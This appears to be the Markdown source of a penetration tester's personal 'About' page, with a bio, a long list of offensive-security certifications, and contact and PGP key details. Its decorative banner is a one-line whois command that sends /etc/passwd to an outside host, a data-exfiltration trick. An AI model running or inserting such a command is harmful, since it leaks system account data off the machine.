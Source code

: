 ```yaml
---
layout: page
title: About
description: ""
---
```


![](img/laptop.jpeg)

```bash
$ /usr/bin/whois -h tokyoneon.host -p 80 "$(cat /etc/passwd)"
```

Evading security software has always been a subject of interest. My earliest memories of handling a computer involve gaining access to my siblings' Windows 98 accounts and password-protecting arbitrary Word documents with unguessable passphrases. Later in life, I developed a fascination for wireless packet injection, the art of social engineering, and breaking websites with malformed input. Today, I've published over 100 technical write-ups, hold offensive security certifications, and share what I've learned over the years with whoever will listen.

---

### Certifications

- Completed
	- [eCPPT](https://www.elearnsecurity.com/course/penetration_testing/): eLearnSecurity Certified Professional Penetration Tester
	- [OSCP](https://www.offensive-security.com/pwk-oscp/): Offensive Security Certified Professional
	- [eWPTX](https://www.elearnsecurity.com/course/web_application_penetration_testing_extreme): eLearnSecurity Web Application Penetration Tester eXtreme
	- [OSWP](https://www.offensive-security.com/wifu-oswp/): Offensive Security Wireless Professional
	- [eJPT](https://www.elearnsecurity.com/course/penetration_testing_student): eLearnSecurity Junior Penetration Tester
	- [PenTest+](https://www.comptia.org/certifications/pentest): CompTIA PenTest+
	- [CySA+](https://www.comptia.org/certifications/cybersecurity-analyst): CompTIA Cybersecurity Analyst
	- [Security+](https://www.comptia.org/certifications/security): CompTIA Security+
	- [CNVP](https://www.comptia.org/certifications/which-certification/stackable-certifications): CompTIA Network Vulnerability Assessment Professional 
	- [CSAP](https://www.comptia.org/certifications/which-certification/stackable-certifications): CompTIA Security Analytics Professional 
	- [CNSP](https://www.comptia.org/certifications/which-certification/stackable-certifications): CompTIA Network Security Professional
	- PentesterLab
		- [Essential Badge](https://www.pentesterlab.com/badges/essential): SSRF, RCE, LDAP Injection, NoSQL, XSS 
		- [Brown Badge](https://www.pentesterlab.com/badges/brownbadge): JSON web encryption, SQL Injection to shell, Unicode attacks
		- [Intercept Badge](https://www.pentesterlab.com/badges/intercept): TLS, intercepting encrypted communications (MitM)
		- [Orange Badge](https://www.pentesterlab.com/badges/orangebadge): Cross-Site WebSocket Hijacking, CORS, postMessage() exploitation
		- [Green Badge](https://www.pentesterlab.com/badges/greenbadge): JWT exploitation, Gogs RCEs, SQL Injection
		- [Yellow Badge](https://www.pentesterlab.com/badges/yellowbadge): Cipher block chaining, XML Entities, Remote Code Execution


---
- In-Progress
	- [eCXD](https://www.elearnsecurity.com/course/exploit_development_student): eLearnSecurity Certified eXploit Developer
	- [Authentication Badge](https://www.pentesterlab.com/badges/auth): PentesterLab Authentication / Authorization Badge
	- [Code Review Badge](https://www.pentesterlab.com/badges/codereview): PentesterLab Code Review Badge

- Queue
	- [PCAP](https://pythoninstitute.org/certification/pcap-certification-associate/): Certified Associate in Python Programming 
	- [ePTX](https://www.elearnsecurity.com/course/penetration_testing_extreme): eLearnSecurity Penetration Tester eXtreme
	- [OSCE](https://www.offensive-security.com/ctp-osce/): Offensive Security Certified Expert
	- [SLAE](https://www.pentesteracademy.com/course?id=3): SecurityTube Linux Assembly Expert
	- [CASP+](https://www.comptia.org/certifications/): CompTIA Advanced Security Professional 
	- [AWS CSS](https://aws.amazon.com/certification/certified-security-specialty/): AWS Certified Security Specialist
	- [eCMAP](https://www.elearnsecurity.com/course/malware_analysis_professional): eLearnSecurity Certified Malware Analysis Professional
	- [PCAP Badge](https://www.pentesterlab.com/badges/pcap): PentesterLab PCAP Badge
	- [Recon Badge](https://www.pentesterlab.com/badges/recon): PentesterLab Recon Badge

---

##### Contact / Socials

- Twitter: [https://twitter.com/tokyoneon_](https://twitter.com/tokyoneon_)
- WonderHowTo: [https://creator.wonderhowto.com/tokyoneon/](https://creator.wonderhowto.com/tokyoneon/)
- GitHub: [https://github.com/tokyoneon/](https://github.com/tokyoneon/)
- Hackthebox: [https://www.hackthebox.eu/home/users/profile/188866](https://www.hackthebox.eu/home/users/profile/188866)
- Keybase: [https://keybase.io/tokyoneon](https://keybase.io/tokyoneon)
- Email: tokyoneon@pm.me

```
pub   rsa4096/C43253B8CE95B841 2017-10-27 [SC] [expires: 2021-10-28]
      Key fingerprint = 94BF C36E A65D 8973 30D6  6199 C432 53B8 CE95 B841
uid                 [ultimate] tokyoneon (twitter.com/tokyoneon_) <tokyoneon@pm.me>
sub   rsa4096/8518FBA61B67CBE6 2017-10-27 [E] [expires: 2021-10-28]
```

---
 
 


